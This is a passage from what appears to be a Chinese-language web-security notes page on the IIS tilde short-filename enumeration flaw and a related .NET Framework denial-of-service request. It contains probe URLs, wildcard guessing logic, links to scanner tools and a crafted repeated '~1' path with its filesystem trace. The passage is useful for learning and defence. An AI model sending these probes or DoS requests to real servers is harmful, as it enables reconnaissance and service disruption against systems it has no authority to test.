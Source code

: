 - 示例
    ```bash
    dir /x
    1. http://www.xxx.com/*~1*/.aspx
    2. http://www.xxx.com/l1j1e*~1*/.aspx
    #若1返回404而2返回400，则可以判断目标站点存在漏洞。
    http://www.xxx.com/a*~1*/.aspx
    #若存在将返回404，不存在则返回400。以此类推，不断向下猜解所有的6个字符。
    ```

- POC | Payload | exp
    - [lijiejie/IIS_shortname_Scanner](https://github.com/lijiejie/IIS_shortname_Scanner)
    - [irsdl/IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner)

**.Net Framework 拒绝服务攻击**

当请求文件夹名称包含 ~1 的请求，会导致不存在该文件的 .Net Framework 去递归查询所有根目录。如果只有一个“~1”是无效的，当“~1”大于一个，比如像这样：
`/wwwtest/fuck~1/~1/~1/~1.aspx`
此时文件系统会这样调用：
```
\wwwtest                           SUCCESS
\wwwtest\fuck~1\~1\~1\~1           PATH NOT FOUND
\wwwtest\fuck~1                    NAME NOT FOUND
\wwwtest\fuck~1\~1\                PATH NOT FOUND
\wwwtest\fuck~1\~1\~1\             PATH NOT FOUND
\wwwtest\fuck~1\~1\~1\~1.aspx      PATH NOT FOUND
\wwwtest\fuck~1\~1\~1\~1.aspx      PATH NOT FOUND
\wwwtest\fuck~1\~1\~1              PATH NOT FOUND
\wwwtest\fuck~1\~1\~1\~1.aspx      PATH NOT FOUND
\wwwtest\fuck~1\~1\~1              PATH NOT FOUND
\wwwtest\fuck~1\~1                 PATH NOT FOUND
\wwwtest\fuck~1                    NAME NOT FOUND
\wwwtest                           SUCCESS
\wwwtest                           SUCCESS
```
如果我们请求的文件/文件夹名同时存在大小写时，这个请求会被请求两次，一次是原封不动的请求，一次是全部使用小写的请求。

下表显示了每个请求的 FS 调用的数量(Windows 2008 R2, IIS 7.5(latest patch – June 2012), and .Net framework 4.0.30319 (在别的系统下可能会不同))